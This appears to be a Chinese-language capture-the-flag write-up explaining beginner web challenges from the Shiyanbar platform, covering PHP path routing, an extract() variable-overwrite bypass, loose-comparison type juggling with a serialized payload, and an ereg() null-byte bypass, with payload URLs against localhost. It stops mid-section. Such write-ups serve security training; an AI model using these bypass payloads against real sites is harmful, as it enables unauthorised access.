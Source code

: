 

- [实验吧入门题目详解](#实验吧入门题目详解)
    - [web1](#web1)
    - [web2](#web2)
    - [web3](#web3)
    - [web4](#web4)
    - [web5](#web5)
    - [web6](#web6)
    - [web7](#web7)
    - [web8](#web8)
    - [web9](#web9)
    - [web10](#web10)
    - [web11](#web11)
    - [web12](#web12)
    - [web14](#web14)
    - [web15](#web15)
    - [web16](#web16)
    - [web17](#web17)



## 实验吧入门题目详解 
### web1 
此题目感觉意义不是很大，其实就是为了考察php的一种特殊路由方式。
例如访问: /index.php/test 其实访问的文件说index.php,最后test作为参数穿入index.php中。
在很多国内的CMS中，都是采用这种路由方式，例如 ear music。 
最后获取到flag的URL是：
```
http://127.0.0.1/shiyanba/web1.php/web1.php
```

### web2 
这个题目主要考察变量覆盖漏洞`extract($_GET)`导致变量覆盖，
然后通过变量覆盖漏洞覆盖`$filename`为一个不存在的文件名，然后穿入`shiyan`为空字符串就可以绕过了。
```
http://127.0.0.1/shiyanba/web2.php?shiyan=&filename=xxxx
```

### web3 
此题目主要考察php的弱类型：
```
php > var_dump(true=="test");
bool(true)
```
用 `==`是一种弱条件的等，用它进行比较的时候，会发生类型转换。
字符串“test”会转化为bool类型，变为true，所以两者相等。 
所以此题目只需要穿入
```php
array{
    "username"=>true,
    "passowrd"=>true
}
```
的序列化值就可以了,最终的payload为。
```
web3.php?info=a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```
### web4 
此题目主要考察函数ereg()的绕过方法。
```php
ereg ("^[a-zA-Z0-9]+$", $_GET['password']
```
这一句要求password中只能含有a-zA-Z0-9这些字符，后面又要求必须含有字符`*-*` 用到了ereg()函数的一个漏洞，%00之后的字符不会参与比较。
```php
```